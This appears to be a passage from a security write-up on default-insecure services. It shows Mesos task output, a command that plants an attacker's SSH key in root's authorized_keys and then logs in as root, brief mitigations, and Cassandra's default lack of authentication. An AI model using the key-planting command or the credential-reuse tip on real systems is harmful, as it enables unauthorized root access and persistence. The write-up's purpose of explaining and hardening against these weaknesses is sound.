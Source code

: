 ```
Received status update TASK_DROPPED for task 'test'
  message: 'Failed to create executor directory '/opt/mesos/slaves/d951a83c-37be-4212-b9b8-9241c618b272-S2840/frameworks/87333254-8ae1-4ad4-8ed5-caf83511b46c-0009/executors/test/runs/dc91b882-99f0-43af-b74a-20ed15d7182c': Failed to chown directory to 'notvalid': No such user 'notvalid''
  source: SOURCE_AGENT
  reason: REASON_EXECUTOR_TERMINATED
```

You better have come prepared to prove your worth to Mesos in order to get that RCE as root...

```
# mesos-execute --master=10.0.0.2:5050 --name="test" --command="echo <b64 encoded public key> | base64 -d >> /root/.ssh/authorized_keys"
Subscribed with ID 87333254-8ae1-4ad4-8ed5-caf83511b46c-0046
Submitted task 'test' to agent 'd951a83c-37be-4212-b9b8-9241c618b272-S2840'
Received status update TASK_STARTING for task 'test'
  source: SOURCE_EXECUTOR
Received status update TASK_RUNNING for task 'test'
  source: SOURCE_EXECUTOR
Received status update TASK_FINISHED for task 'test'
  message: 'Command exited with status 0'
```

```
$ ssh root@10.0.0.2
...
[root@mesos ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

### Mitigations

Turn on authentication.

Mesos uses JSON credential files to authenticate agents, so make sure its configured with strong credentials. Oh they're usually plaintext on disk, so if you do compromise a cluster, you can try and reuse those secrets later as well.

There's a [secure-mesos-workshop](https://github.com/mesosphere-backup/secure-mesos-workshop) which gives a great run-down of how to do lots of Mesos security related tasks.

# Cassandra

Cassandra is a NoSQL database and management server. No AuthN by default. Also no AuthZ by default via **authorizer: AllowAllAuthorizer**.

> "By default, Cassandra is configured with AllowAllAuthenticator which performs no authentication checks and therefore requires no credentials. It is used to disable authentication completely."

So there's no authentication by default, but what's even more interesting is the subtleties between authN and authZ. If authentication is turned on, you must have valid credentials to login to the server. BUT if authorization is still off, a normal user will not be able to *add another superuser*, but many other privileged operations are left automatically authorized, such as the ability to *change the password of a superuser*.
